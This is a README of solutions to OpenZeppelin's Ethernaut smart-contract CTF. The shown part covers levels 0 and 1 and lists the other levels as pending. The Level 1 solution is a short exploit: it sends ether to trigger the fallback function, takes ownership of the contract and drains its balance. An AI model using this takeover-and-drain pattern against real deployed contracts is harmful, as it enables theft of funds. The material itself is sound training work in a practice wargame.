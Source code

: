 # The Ethernaut CTF Challenge Solutions

*The Ethernaut is a Web3/Solidity based wargame inspired by [overthewire.org](https://overthewire.org/wargames/), played in the Ethereum Virtual Machine. Each level is a smart contract that needs to be 'hacked'. The game is 100% open source and all levels are contributions made by other players.*

Brief solutions for OpenZeppelin's Ethernaut CTF. Writeups pending.

**Completed**

[Level 0: Hello Ethernaut](#HelloEthernaut)  
[Level 1: Fallback](#Fallback)  
[Level 2: Fallout](#Fallout)  

**Pending**

[Level 3: Coin Flip](#CoinFlip)  
[Level 4: Telephone](#Telephone)  
[Level 5: Token](#Token)  
[Level 6: Delegation](#Delegation)  
[Level 7: Force](#Force)  
[Level 8: Vault](#Vault)  
[Level 9: King](#King)  
[Level 10: Re-entrancy](#Reentrancy)  
[Level 11: Elevator](#Elevator)  
[Level 12: Privacy](#Privacy)  
[Level 13: Gatekeeper One](#GatekeeperOne)  
[Level 14: Gatekeeper Two](#GatekeeperTwo)  
[Level 15: Naught Coin](#NaughtCoin)  
[Level 16: Preservation](#Preservation)  
[Level 17: Recovery](#Recovery)  
[Level 18: Magic Number](#MagicNumber)  
[Level 19: Alien Codex](#AlienCodex)  
[Level 20: Denial](#Denial)  
[Level 21: Shop](#Shop)  
[Level 22: Dex](#Dex)  
[Level 23: Dex Two](#DexTwo)  
[Level 24: Puzzle Wallet](#PuzzleWallet)  
[Level 25: Motorbike](#Motorbike)  
[Level 26: Double Entry Point](#DoubleEntryPoint)  
[Level 27: Good Samaritan](#GoodSamaritan)  


## Requirements
- [Metamask](https://metamask.io/)


## <a name='HelloEthernaut'></a> 0. Hello Ethernaut
> This level walks you through the very basics of how to play the game.


```js
// We call the functions in the order as suggested 
> await contract.info()
< 'You will find what you need in info1().'

> await contract.info1()
< 'Try info2(), but with "hello" as a parameter.'

> await contract.info2("hello")
< 'The property infoNum holds the number of the next info method to call.'

> x = contract.infoNum()
// We expand the promise to reveal "42"

> await contract.info42()
< 'theMethodName is the name of the next method.'

> await contract.theMethodName()
< 'The method name is method7123949.'

> await contract.method7123949()
< 'If you know the password, submit it to authenticate().'

> await contract.password()
< 'ethernaut0'

> await contract.authenticate("ethernaut0")
```




## <a name='Fallback'></a> 1. Fallback
> You will beat this level if:
> 1. You claim ownership of the contract
> 2. You reduce its balance to 0

```js
// First, we contribute some ether:
await contract.contribute({value: 5})

// Then we send some ether to make us the owner
sendTransaction({from: player, to: instance, value: 5})

// Verify we have claimed ownership
await contract.owner()

// Reduce balance to 0
await contract.withdraw()

```
